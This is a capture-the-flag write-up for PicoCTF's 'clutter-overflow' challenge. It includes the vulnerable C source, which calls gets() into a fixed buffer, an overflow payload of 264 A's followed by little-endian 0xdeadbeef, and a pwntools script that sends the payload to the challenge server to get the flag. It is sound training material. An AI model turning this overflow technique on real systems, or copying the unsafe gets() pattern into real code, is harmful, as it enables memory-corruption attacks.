 # PicoCTF - clutter-overflow

## Challenge Overview
**Title:** clutter-overflow  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** chall.c, chall

## Description
Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

## Analysis
Our goal is to somehow override the value of `code` and set it to `0xdeadbeef`.  
```c
#define GOAL 0xdeadbeef
...
if (code == GOAL) {
  printf("code == 0x%llx: how did that happen??\n", GOAL);
  puts("take a flag for your troubles");
  system("cat flag.txt");
}
```

`clutter` is a buffer of 256 characters and is filled using `gets()` which doesn't protect from buffer overflows.  
```c
#define SIZE 0x100
...
char clutter[SIZE];
...
gets(clutter);
```

So we need to overflow `clutter` and override `code`.  
To do so, I will start entering inputs over 256 characters long until I see that the value of `code` is changed
```
...
My room is so cluttered...
What do you see?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
code == 0x41
code != 0xdeadbeef :(
```

With 265 we reach the first byte of `code`.  
So now we will enter 264 * As and then `0xdeadbeef`
```
$ printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | ./chall
...
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
My Flag
```

Perfect, now we need to do this to the server.  
To convert the payload to raw bytes for transmission, I will use a **Python** script

### Python Script
```python
from pwn import *

def reverse_string(addr):
    chunks = [addr[i:i+2] for i in range(0, len(addr), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)

def construct_payload(value):
    payload = 'A'*264
    payload += reverse_string(value)
    return payload.encode().decode('unicode_escape').encode('latin1')


def send_to_server(payload):
    # Connect to the remote server
    host = 'mars.picoctf.net'
    port = 31890
    conn = remote(host, port)

    conn.sendline(payload)

    # Receive the server's response
    response = conn.recvall()
    # Close the connection
    conn.close()

    return response


def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def main():
    value = "deadbeef"
    payload = construct_payload(value)
    server_output = send_to_server(payload)
    print(get_flag(server_output.decode('utf-8', errors='ignore')))


main()
```

This creates the payload, sends it to the server and prints the flag
```
$ python script.py
[+] Opening connection to mars.picoctf.net on port 31890: Done
[+] Receiving all data: Done (1.51KB)
[*] Closed connection to mars.picoctf.net port 31890
picoCTF{____REDACTED____}
```
## Solution

- Enter as your input 264 A's followed by the value `0xdeadbeef` in the Little Endian format
- Send to server as raw bytes